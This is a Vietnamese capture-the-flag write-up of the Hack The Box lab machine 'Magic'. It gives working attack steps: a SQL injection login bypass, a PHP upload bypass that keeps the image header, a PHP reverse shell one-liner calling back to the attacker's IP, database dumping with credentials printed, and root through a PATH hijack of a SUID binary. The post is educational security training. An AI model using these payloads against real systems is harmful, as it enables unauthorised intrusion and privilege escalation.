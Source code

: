 ## 0. Mở đầu

Magic là một machine Linux  ra mắt từ 2/5/2020 (được 36 ngày). Machine có IP 10.10.10.185, được đánh giá ở mức Medium.

![](https://images.viblo.asia/374e82c5-7fe6-4d21-b213-5dd5f9859613.png)

Về matrix rate, nó khá chung chung, 

![](https://images.viblo.asia/a587f29e-97f7-49fe-926b-9e76f70368f7.png)

Machine được rate khá cao (4,6/5) nên hi vọng sẽ hay và học được nhiều cái mới.


## 1.Write-up

##### Write-up vừa làm vừa viết nhưng lần này sẽ rút gọn hơn!

### 1.1 User Flag

Scan Nmap, command cũ:

`sudo nmap -v -sS -A -Pn -T5 -p- -oN magic.txt 10.10.10.185`

Có 2 port được mở là 22 và 80, nghe hơi hướng có vẻ phải chuyển hướng tấn công, scan bằng Nmap tiếp cho chắc rồi...đi làm việc khác, do Matrix-rate  có hướng CVE nhẹ nên thêm --script vào để xem có cái RCE nào không:

`sudo nmap -sS -sV --script=default,vuln -p 80,22 -T5 -oN nmap_final.txt 10.10.10.185`

Đi tìm các route/endpoint của machine:

`dirsearch -u http://10.10.10.185/ -t 20 -e html,php,txt`

Hàng về:


```
/login.php
/index.php/login/
/upload.php  ->  login.php (yêu cầu login trước)
```

Với **dirsearch** mình chỉ dùng mặc định, vì cảm thấy brute-force với **wordlist ngoài** cùng dirsearch là không ăn thua.

![](https://images.viblo.asia/6fe9dd3a-4dc1-4aaf-9daa-e36d0fb6b044.png)

Sau đó mình có thử thêm [gobuster](https://github.com/OJ/gobuster) để tìm các path và endpoit cùng các wordlist lớn nhưng ko ra thêm gì. Giới thiệu về Gobuster tại [đây](https://kgcg.wordpress.com/2020/05/19/do-tham-website-web-reconnaissance-tools-1-gobuster/).

Quay về với những gì tìm được thì có 1 form login tại http://10.10.10.185/login.php

Thử 1 số payload đơn giản, và... siêu đơn giản `' or 1=1;--`

Vậy là login thành công, được redirect sang `http://10.10.10.185/upload.php`

![](https://images.viblo.asia/f456df2f-966f-42b9-9f3d-bf7e486b0fd6.png)

Test nhẹ cái:

![](https://images.viblo.asia/e398e161-09f8-4554-802a-7b0cba85ea03.png)

Có vẻ đã đến lúc dùng Burpsuite :v 

Sau khi test 1 hồi, thì mình nhận ra phần Upload có check kỹ tên File và file content : Upload một image đúng format, xóa nội dung và thay bằng code PHP sẽ nhận response như sau:

![](https://images.viblo.asia/e7f2d26e-5c47-4565-8db7-241a143ca4ae.png)

Với tên sai thì tương tự như pop-up phía trên. Chúng ta chỉ có thể upload file dạng này:

![](https://images.viblo.asia/d435f4ec-cda3-4085-9097-2e9fcf96519f.png)

Nhưng với file content, nó chỉ check header, và điều này không khó để bypass:

Upload một file đúng quy định, xóa nội dung thay bằng code php và để lại header là đủ:

![](https://images.viblo.asia/501e3f42-33a0-4c65-a960-3afac5ec738d.png)

Tại đây chúng ta đã có thể execute lệnh với quyền www-data:

![](https://images.viblo.asia/c2395b82-ed44-4b55-9ff1-a307e33d2546.png)

Chạy reverse shell về máy cho khỏe:

`php -r '$sock=fsockopen("10.10.14.40",3333);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'`

Thành quả:

![](https://images.viblo.asia/02bb006d-460b-4c8c-a72d-af1f3a7fc800.png)

Để cho xịn hơn:

`python3 -c 'import pty; pty.spawn("/bin/bash")'`

Ý tưởng lớn...gặp nhau, sau khi có được reverse shell, mình vào **/tmp/** thì đã thấy [PEASS.sh](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite) ở đó (của ai đó) từ bao giờ, thôi thì có duyên thì mình chạy luôn vậy :v Thực tế tiện thì...chạy chứ dump ra nhiều quá cũng ko tìm thấy gì...

Machine có username tên **theseus**, trở về với **/var/www/Magic/**  chúng ta có file db.php5, nội dung như sau:

![](https://images.viblo.asia/2299e5ad-71c2-4f48-bb1f-6cf9858b0c71.png)

Dùng thử để SSH tới thì đương nhiên là không được. Connect tới database cũng không được do chưa có mysql-client và mariadb-client:

![](https://images.viblo.asia/062e5441-d031-4b30-99f9-0f0bc54537ed.png)

Nhưng để backup database bằng mysqldump thì được, tìm 1 lúc ra cú pháp đúng tại [đây](https://www.tecmint.com/mysql-backup-and-restore-commands-for-database-administration/)

![](https://images.viblo.asia/f5dfc7a7-1af6-43d2-8597-cdbcba0de438.png)


`mysqldump -u theseus -piamkingtheseus --all-databases`

Và có credentials tại giá trị insert vào table **login**:

![](https://images.viblo.asia/c48efae7-224e-4666-91f8-8b938c7dcd20.png)

`Th3s3usW4sK1ng`

Sử dụng nó để switch account thì ăn ngay và get flag:

![](https://images.viblo.asia/4ab46494-9e4e-4d5f-9671-f0fbdd9bec4a.png)

### 1.2 Root  Flag

Gõ `sudo -l` thì user **theseus** không có Sudo Rights, chuyển sang tìm SUID.

Về Sudo Rights các bạn đọc bài tại [đây](https://kgcg.wordpress.com/2020/01/13/leo-thang-dac-quyen-trong-linux-linux-privilege-escalation-0-using-sudo-rights/) , về SUID thì tại [đây](https://kgcg.wordpress.com/2020/02/04/leo-thang-dac-quyen-trong-linux-linux-privilege-escalation-1-using-suid-bit/).

Mình thường tìm 2 phương pháp này trước vì nó phổ biến, hay gặp và mình làm quen nhất:

`find / -perm -u=s -type f 2>/dev/null`


Những binary "lạ" được gắn SUID:

![](https://images.viblo.asia/1d009a90-9ecc-45f3-a964-755e9ad90676.png)

Cố đọc từng binary bằng lệnh `strings /path/to/binary`

Tại **/bin/sysinfo** dùng tới 3 lệnh sau:

![](https://images.viblo.asia/4d9b6cbb-416f-4dad-9ee3-f66686b9cd53.png)

Để thân thuộc mình sẽ dùng **cat** để leo quyền.

Về ý tưởng leo quyền bằng cách này, các bạn đọc tại [đây](https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/).

Ý tưởng sẽ là: Tạo 1 file tên cat, content của nó do chúng ta quyết định, gán nó vào PATH variable.
Khi binary có SUID được chạy (sysinfo), thì **cat** cũng được chạy với quyền root (do SUID này do Root gắn), khi đó thì lấy cờ easy.

Tạo một file tên **cat**, content của nó dùng để đọc flag:

![](https://images.viblo.asia/084a386e-aa45-42a2-9844-e46b10eb144f.png)

Sau đó kéo về **/tmp/** của machine,  Command leo quyền như sau:

```
cd /tmp
chmod 777 cat
echo $PATH
export PATH=/tmp:$PATH
```

Khi đó nếu bạn chạy **cat --h** thì câu chuyện sẽ như thế này:

![](https://images.viblo.asia/c6508d9f-92c0-43d2-82c6-b734795deafc.png)

Nhưng chạy thông qua **sysinfo** thì được do nó có SUID, khi Path variable đã được gán, command chỉ là **sysinfo**, và kết quả:

![](https://images.viblo.asia/7ab60cfc-6a28-4c97-8ff0-5a5afc675c90.png)

## 2. Kết luận

Machine khá cơ bản và dễ tiếp cận. Không có nhiều "lỗ thỏ".